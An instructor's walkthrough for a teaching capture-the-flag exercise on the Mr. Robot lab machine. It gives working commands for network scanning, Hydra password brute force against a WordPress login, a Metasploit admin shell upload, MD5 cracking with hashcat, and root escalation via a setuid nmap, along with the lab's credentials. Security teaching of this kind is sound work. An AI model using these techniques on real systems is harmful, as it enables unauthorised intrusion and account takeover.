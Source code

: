 # Instructor <small>Mr. Robot Walkthrough</small>

General guidance:

1. Pay attention to the IP address- the VM may have a different IP address- if the kids copy & insert their material
2. Many command flags are case sensitive.  Pay attention to the case of command flags
3. Be sure to ask the kids if they want to take a break after finding a flag.  Going through all 3 may be too advanced for many of the kids.

## First Flag

Students should first use *ip* to see their network details, then they should use *nmap* to find what hosts sit on the network. They should see one of the hosts has ports 80 and 443 open, indicating it’s probably hosting a web application. They should navigate to this ip address in a browser. They should execute:

**Go to a Kali terminal**
```
ip addr show eth0
```
```
nmap -n 10.13.13.0/24
```
![Image](./images/instructor-flag1.png "Image")

The first flag can be found by navigating to the robots.txt for the site in the browser. From there, students should see there is a file called key-1-of-3.txt they can navigate to. In addition, there will be an fsociety.dic file, they should download that now. The process for getting there is:

* **<web app ****ip**** address>/robots.txt**
* **<web app ****ip**** address>/key-1-of-3.txt**

## Second Flag

The second flag is a little trickier and will take a bit more time. First, students should try to navigate to a page that doesn’t exist. This should generate a 404 page; this will reveal that the site is powered via wordpress. One of the features of wordpress is the ability to login as either a user or an admin. This site is found on /wp-login.php. The steps are:

* **Navigate to <web app ****ip**** address>/****completelyfakepage**
* **Click ****Log in on the bottom left**

![Image](./images/instructor-flag2.png "Image")

From here the student will need to do some password cracking to be able to login. First, they should try and login and see that the site will say if a username is correct or not. They should try elliot (name of the main character in the show) to see it’ll say the password is wrong. They should open developer tools and go to the network tab while trying to login from here they should look at a sample call to see what that looks like.

* **Open developer tools and go to network tab**
* **Login with a random username/password**
* **Try logging in with ****elliot**** as username**

![Image](./images/instructor-flag2b.png "Image")

This is where the fsociety.dic file comes into play. However, it contains a lot of duplicates and will slow down the cracking process, so it should be deduped first. This can be done via: *sort -u **fsocity.dic** -o **uniq.dic*

* **Go to <web app ****ip**** address>/****foscity.dic**** and download the file**
* **On the downloaded file**** (in a terminal)**** run: **** sort -u ****fsocity.dic**** -o ****uniq.dic**

From here, the student can run THC Hydra, a password cracking tool. Based on the knowledge they gained about the login calls and their failed attempt they should have everything they need to start the cracking a sample command is: *hydra -**l** **elliot** -P **uniq.dic** **<SERVER IP>** http-post-form “**/**wp-login.php:log**=^USER^&**pwd**=^PASS^:**F=is incorrect**”* which will take significantly less time. Finally, the correct login is: user: elliot, pass: ER28-0652. The process is as follows:

* **Go to a Kali**** terminal**
```
hydra -l elliot -P uniq.dic <web app ip address> http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:F=is incorrect”
```

![Image](./images/instructor-flag2c.png "Image")

Students are going to probably want to play around on the admin site for a while. Ultimately they’ll realize the second key isn’t on the web app. You should point out they likely need to get access onto the box to do that. Thankfully WordPress has a long history of vulnerabilities! Specifically one for performing reverse shell uploads. Metasploit is just the tool to do that for them.

Do make sure to talk about what Metasploit is and what makes it so useful.

The process is as follows:

* **Go to a Kali**** terminal**
* **Run ****ms****f****console**
* **use exploit/****unix****/****webapp****/****wp_admin_shell_upload**
* **set USERNAME ****elliot**
* **set PASSWORD ER28-0652**
* **set RHOST ****10.13.13.102**
* **set WPCHECK false**
* **exploit**
* **In ****meterpreter**** run shell**

![Image](./images/instructor-flag2d.png "Image")

![Image](./images/instructor-flag2e.png "Image")

![Image](./images/instructor-flag2f.png "Image")

The default meterpreter shell is kind of annoying and students won’t like it. They should setup a quick python script to give them a proper shell. The steps for this is as follows:

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
```
```
python /tmp/asdf.py
```

![Image](./images/instructor-flag2g.png "Image")

Students probably won’t know this but /home/ is really useful for finding info about who’s on the box. If they cd into the /home/ directory they should find there’s a user called robot. If they cd into /home/robot/ they should see two things: the second key file and an md5 hash of robot’s password. They won’t be able to access the file since they’re not robot. They should be able to see the hash in the password file though. The steps are as follows:

* **cd /home/**
* **cd robot/**
* **cat password.raw-md5**

![Image](./images/instructor-flag2h.png "Image")

You should let the student know that md5 is considered broken and easy to break. In addition, kali comes with a hash breaker called hashcat they can use to crack the password. Kali also comes with a wordlist they can use to brute force the password. This file is called rockyou. The steps for cracking it as follows:

* **Copy ****the hash in the password.raw-md5 file**
* **Go to a Kali terminal**
* **gunzip**** /****usr****/share/wordlists/rockyou.****txt.gz**
* **echo “<copied hash>” > password.md5**
* **hashcat**** --force -a 0 -m 0 password.md5 /****usr****/share/wordlists/rockyou.txt -o cracked.txt**
* **cat cracked.txt**

![Image](./images/instructor-flag2i.png "Image")

![Image](./images/instructor-flag2j.png "Image")

![Image](./images/instructor-flag2k.png "Image")

Now they have the username/password for the robot user. It’s robot/abcdefghijklmnopqrstuvwxyz essentially the password is all letters of the alphabet. Back on the server shell they should run su robot to login as them. Then they can access the second key. The process is as follows:

* **su**** robot**
* **cat key-2-of-3.txt**

![Image](./images/instructor-flag2l.png "Image")

## Third Flag

Finally, they’ll need to gain access to root, ideally the documentation explains what root is and why it’s so important to protect, but some reminding might be necessary. What they should also know is that some programs will actually run as a different user than the person that started the program, this means that while they ran the program, the program could be running as someone entirely different. Thus, if they can trick or get that program to open a shell, then they would be able to act as root if it’s set to run as root. This is where the setuid flag comes into play. They can find all programs with this flag set via: *find / -perm -4000 2> /dev/null*. The process is as follows:

```
find / -perm -4000 2> /dev/null
```

![Image](./images/instructor-flag3.png "Image")

What they should find is a few programs with it set, most of them should make sense, but nmap should be strange to them. If they just run *nmap* with no flags, they should find it’s actually a version with an interactive mode! In addition, they should run ls -l on it and see it’s owned by root. Thus *nmap** --interactive* will actually grant them a root shell, from there a simple *!**sh* will grant a more usable shell with which they can navigate to /root and see the final flag. The steps are as follows:

* **ls -l /****usr****/local/bin/****nmap**
* **nmap**** --interactive **
* **!****sh**
* **whoami**
* **cd /root/**
* **ls**
* **cat key-3-of-3.txt**

![Image](./images/instructor-flag3b.png "Image")